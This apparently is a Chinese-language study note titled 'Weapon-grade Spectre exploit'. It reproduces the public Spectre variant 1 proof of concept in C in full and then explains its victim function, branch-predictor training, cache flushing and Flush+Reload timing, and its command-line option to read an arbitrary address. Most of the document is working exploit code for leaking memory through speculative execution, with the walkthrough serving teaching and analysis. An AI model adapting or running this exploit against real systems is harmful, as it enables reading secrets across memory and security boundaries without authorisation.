

# 武器级spectre漏洞利用

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#ifdef _MSC_VER
#include <intrin.h> /* for rdtscp and clflush */
#pragma optimize("gt", on)
#else
#include <x86intrin.h> /* for rdtscp and clflush */
#endif

/* sscanf_s only works in MSVC. sscanf should work with other compilers*/
#ifndef _MSC_VER
#define sscanf_s sscanf
#endif

/********************************************************************
Victim code.
********************************************************************/
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
uint8_t unused2[64];
uint8_t array2[256 * 512];

char* secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0; /* Used so compiler won't optimize out victim_function() */

void victim_function(size_t x)
{
	if (x < array1_size)
	{
		temp &= array2[array1[x] * 512];
	}
}

/********************************************************************
Analysis code
********************************************************************/
#define CACHE_HIT_THRESHOLD (80) /* assume cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2])
{
	static int results[256];
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
	size_t training_x, x;
	register uint64_t time1, time2;
	volatile uint8_t* addr;

	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--)
	{
		/* Flush array2[256*(0..255)] from cache */
		for (i = 0; i < 256; i++)
			_mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

		/* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
		training_x = tries % array1_size;
		for (j = 29; j >= 0; j--)
		{
			_mm_clflush(&array1_size);
			for (volatile int z = 0; z < 100; z++)
			{
			} /* Delay (can also mfence) */

			/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
			/* Avoid jumps in case those tip off the branch predictor */
			x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
			x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
			x = training_x ^ (x & (malicious_x ^ training_x));

			/* Call the victim! */
			victim_function(x);
		}

		/* Time reads. Order is lightly mixed up to prevent stride prediction */
		for (i = 0; i < 256; i++)
		{
			mix_i = ((i * 167) + 13) & 255;
			addr = &array2[mix_i * 512];
			time1 = __rdtscp(&junk); /* READ TIMER */
			junk = *addr; /* MEMORY ACCESS TO TIME */
			time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
				results[mix_i]++; /* cache hit - add +1 to score for this value */
		}

		/* Locate highest & second-highest results results tallies in j/k */
		j = k = -1;
		for (i = 0; i < 256; i++)
		{
			if (j < 0 || results[i] >= results[j])
			{
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k])
			{
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
	}
	results[0] ^= junk; /* use junk so code above won't get optimized out*/
	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}

int main(int argc, const char* * argv)
{
	printf("Putting '%s' in memory, address %p\n", secret, (void *)(secret));
	size_t malicious_x = (size_t)(secret - (char *)array1); /* default for malicious_x */
	int score[2], len = strlen(secret);
	uint8_t value[2];

	for (size_t i = 0; i < sizeof(array2); i++)
		array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */
	if (argc == 3)
	{
		sscanf_s(argv[1], "%p", (void * *)(&malicious_x));
		malicious_x -= (size_t)array1; /* Convert input value into a pointer */
		sscanf_s(argv[2], "%d", &len);
		printf("Trying malicious_x = %p, len = %d\n", (void *)malicious_x, len);
	}

	printf("Reading %d bytes:\n", len);
	while (--len >= 0)
	{
		printf("Reading at malicious_x = %p... ", (void *)malicious_x);
		readMemoryByte(malicious_x++, value, score);
		printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
		printf("0x%02X='%c' score=%d ", value[0],
		       (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
		if (score[1] > 0)
			printf("(second best: 0x%02X='%c' score=%d)", value[1],
				   (value[1] > 31 && value[1] < 127 ? value[1] : '?'),
				   score[1]);
		printf("\n");
	}
#ifdef _MSC_VER
	printf("Press ENTER to exit\n");
	getchar();	/* Pause Windows console */
#endif
	return (0);
}
```



程序解读：  
array1代表受害者和攻击者之间的共享内存空间，这个长度是无所谓的    
array1被两个未使用的数组包围，这些数组对于确保我们命中不同的缓存路径是很有用的，在很多处理器中，L1缓存每一路径有
64个字节  
在POC中，受害者和攻击者共享相同的进程，这只是为了让代码简单。现实中，受害者和攻击者共享一个内存空间，攻击者有调用
victim_function的能力。
uint8_t temp = 0;这个语句只是为了让程序编译的时候不会把victim_function函数删掉  

!!! 关于密文

    The Magic Words are Squeamish Ossifrage.这是1977年开始RSA密码挑战的解决方案。
    
## victim_function解读

```c
void victim_function(size_t x)
{
	if (x < array1_size)
	{
		temp &= array2[array1[x] * 512];
	}
}
```
1、读array1_size，CPU缓存没命中  
2、读array1_size的过程由于没命中会慢，分支预测会假设true  
3、推测读取array[1]，由于缓存命中会很快  
4、读取array2[array1[x] * 512]，由于缓存没命中会慢  
5、当执行步骤4时，步骤1完成了，处理器意识到了预测错误开始回退  

由于多数Intel处理器来说，每一个缓存线路大小都是64字节，故64*8=512，乘一个512确保在不同缓存线路中

## readMemoryByte解读

这个函数猜测指定地址的值，返回两个命中的值，如果一个都没命中，返回Unclear。用的是Flush + Reload方法

```c
for (volatile int z = 0; z < 100; z++)
{
} /* Delay (can also mfence) */
```
这一段是确保flush已经完成，处理器不再重新下指令。这一段循环也可以用mfence指令来完成，这个是Intel和AMD上的指令。

```c
x = ((j % 6) - 1) & ~0xFFFF; 
x = (x | (x >> 16)); 
x = training_x ^ (x & (malicious_x ^ training_x));
```
这一段可读性很差，防止提示分支预测器，避免跳跃用的

```c
mix_i = ((i * 167) + 13) & 255;
```
这句话放在读取可用时间的循环中，作用是混淆顺序，防止步幅预测。预测了会优化访问，这里是防止优化。

```c
if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
    results[mix_i]++; /* cache hit - add +1 to score for this value */
```
由于mix_i会服务于更多的缓存命中，故要排除这个索引

```c
 /* Locate highest & second-highest results results tallies in j/k */
j = k = -1;
for (i = 0; i < 256; i++)
{
    if (j < 0 || results[i] >= results[j])
    {
        k = j;
        j = i;
    }
    else if (k < 0 || results[i] >= results[k])
    {
        k = i;
    }
}
if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
    break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
```
找到缓存命中中最多的两个字节值

## 主函数

```c
size_t malicious_x = (size_t)(secret - (char *)array1); /* default for malicious_x */
```
内存中数据布局是array1，一些其他字节，之后是secret。offset = secret - array1

```c
if (argc == 3)
{
    sscanf_s(argv[1], "%p", (void * *)(&malicious_x));
    malicious_x -= (size_t)array1; /* Convert input value into a pointer */
    sscanf_s(argv[2], "%d", &len);
    printf("Trying malicious_x = %p, len = %d\n", (void *)malicious_x, len);
}
```
如果带参数运行，把第一个参数当成指针读入malicious_x  
带参数运行时，第一个参数是想读取的地址，第二个参数是读多少个字节

## 参考资料

1、[分析文章](https://www.fortinet.com/blog/threat-research/into-the-implementation-of-spectre)  
2、[代码](https://github.com/Eugnis/spectre-attack/blob/master/Source.c)